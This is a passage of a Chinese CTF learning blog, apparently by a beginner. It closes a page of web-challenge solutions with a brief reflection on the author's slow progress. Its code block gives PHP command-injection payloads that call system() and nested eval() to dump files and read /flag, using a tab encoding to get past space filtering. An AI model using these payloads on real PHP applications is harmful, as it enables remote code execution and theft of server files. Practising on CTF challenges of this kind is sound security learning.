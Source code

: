 ```
?get=system('cat%09/*');
system('nl%09/*'); //nl 会把每个文件的内容按行号列出来。
这俩是一样的

?get=eval($_GET['a']);&a=system("cat /flag"); //题目是执行get的内容，让这个get再去执行一个参数
```



# 小结

第6页写完了，可是感觉不会的东西还是一堆，碰到稍微难一点的题目，或者自己没遇到过的知识点，直接就嘎巴栽那了。

接下来，不是一页一页的写了，这样有问题，我准备一个专题一个专题的去准备。

还有就是，看到大佬的博客和经历， 感觉他们还都是让我仰望的存在，差距还很大，必须抓紧时间。

最后，说实话，我的博客写的真垃圾，全是流水账，以后对多加改善。